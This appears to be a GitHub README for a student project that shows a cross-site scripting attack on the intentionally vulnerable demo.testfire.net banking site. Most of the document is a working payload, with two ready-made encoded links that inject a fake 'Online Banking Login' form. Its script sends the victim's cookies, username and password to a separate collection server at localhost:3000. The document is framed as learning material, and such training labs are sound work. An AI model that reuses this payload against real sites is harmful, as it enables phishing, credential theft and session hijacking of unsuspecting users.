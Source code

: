 # About
Fake Login form using cross site scripting.
This is done on a website which is made intentionally vulnerable.
https://demo.testfire.net/
**This is only for learning purposes.**


# Execution
## Note:
Below is the script, execute this on any input form eg (Search, feedback) of the given website.
You must have local server setup, here it is node server localhost:30000. code is uploaded clone it and run on your system.

## Get output on server console

<form action method name="login" id="login"><table><tbody><tr><td>Username:</td><td><input type="text" id="uid" name="uid" value="" style="width: 150px;"></td><td></td></tr><tr><td>Password:</td><td><input type="password" id="passw" name="passw" style="width: 150px;"></td></tr><tr><td></td><td><input type="button" name="btnSubmit" value="Login" onclick="return (SubmitForm());"></td></tr></tbody></table></form>
<script type="text/javascript">
    function SubmitForm()
    {
            document.forms['login'].action='doLogin';
            document.forms["login"].method = "post";
            document.forms["login"].target = "_self";
            document.forms["login"].submit();
            new Image().src="http://localhost:3000/?"+document.cookie+'&UserName='+document.forms["login"].uid.value+'&Password='+document.forms["login"].passw.value;
            return (true);
    }
    document.getElementsByClassName("fl")[0].children[0].textContent = "Online Banking Login";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
</script>

## Direct Link to get fake form 
<a href="https://demo.testfire.net/search.jsp?query=%3Cform+action+method+name%3D%22login%22+id%3D%22login%22%3E%3Ctable%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3EUsername%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22uid%22+name%3D%22uid%22+value%3D%22%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3Ctd%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3EPassword%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22password%22+id%3D%22passw%22+name%3D%22passw%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22button%22+name%3D%22btnSubmit%22+value%3D%22Login%22+onclick%3D%22return+%28SubmitForm%28%29%29%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E+%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++function+SubmitForm%28%29+++++%7B+++++++++++++document.forms%5B%27login%27%5D.action%3D%27doLogin%27%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22post%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22_self%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B+++++++++++++new+Image%28%29.src%3D%22http%3A%2F%2Flocalhost%3A3000%2F%3F%22%2Bdocument.cookie%2B%27%26UserName%3D%27%2Bdocument.forms%5B%22login%22%5D.uid.value%2B%27%26Password%3D%27%2Bdocument.forms%5B%22login%22%5D.passw.value%3B+++++++++++++return+%28true%29%3B+++++%7D+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22Online+Banking+Login%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+%3C%2Fscript%3E" target="_blank">Click me to fake login</a> (<i>Run this on firefox</i>)

## Server request with UI output
```javascript
<form action method name="login" id="login"><table><tbody><tr><td>Username:</td><td><input type="text" id="uid" name="uid" value="" style="width: 150px;"></td><td></td></tr><tr><td>Password:</td><td><input type="password" id="passw" name="passw" style="width: 150px;"></td></tr><tr><td></td><td><input type="button" name="btnSubmit" value="Login" onclick="return (SubmitForm());"></td></tr></tbody></table></form>
<script type="text/javascript">
    function SubmitForm()
    {
            document.forms['login'].action='doLogin';
            document.forms["login"].method = "post";
            document.forms["login"].target = "_self";
            document.forms["login"].submit();

            document.forms["login"].action = "http://localhost:3000/";
            new Image().src="http://localhost:3000/?"+document.cookie;
            document.forms["login"].method = "get";
            document.forms["login"].target = "http://localhost:3000/";
            document.forms["login"].submit();
            return (true);
    }
    document.getElementsByClassName("fl")[0].children[0].textContent = "Online Banking Login";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
</script>
```
## Below is the link prepared from the above script.

<a href="https://demo.testfire.net/search.jsp?query=%3Cform+action+method+name%3D%22login%22+id%3D%22login%22%3E%3Ctable%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3EUsername%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22uid%22+name%3D%22uid%22+value%3D%22%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3Ctd%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3EPassword%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22password%22+id%3D%22passw%22+name%3D%22passw%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22button%22+name%3D%22btnSubmit%22+value%3D%22Login%22+onclick%3D%22return+%28SubmitForm%28%29%29%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E+%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++function+SubmitForm%28%29+++++%7B+++++++++++++document.forms%5B%27login%27%5D.action%3D%27doLogin%27%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22post%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22_self%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B++++++++++++++document.forms%5B%22login%22%5D.action+%3D+%22http%3A%2F%2Flocalhost%3A3000%2F%22%3B+++++++++++++new+Image%28%29.src%3D%22http%3A%2F%2Flocalhost%3A3000%2F%3F%22%2Bdocument.cookie%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22get%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22http%3A%2F%2Flocalhost%3A3000%2F%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B+++++++++++++return+%28true%29%3B+++++%7D+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22Online+Banking+Login%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+%3C%2Fscript%3E" target="_blank">Click me to fake login</a> (<i>Run this on firefox</i>)


## References
https://pentest-tools.com/blog/xss-attacks-practical-scenarios/ , 
http://form.guide/web-form/submit-form-multiple-scripts.html

# Authors

Ashkan Es Haghi <br>
Alexander Grissinger <br>
Muddassir Hussain <br>

# Project Date
08.11.2019
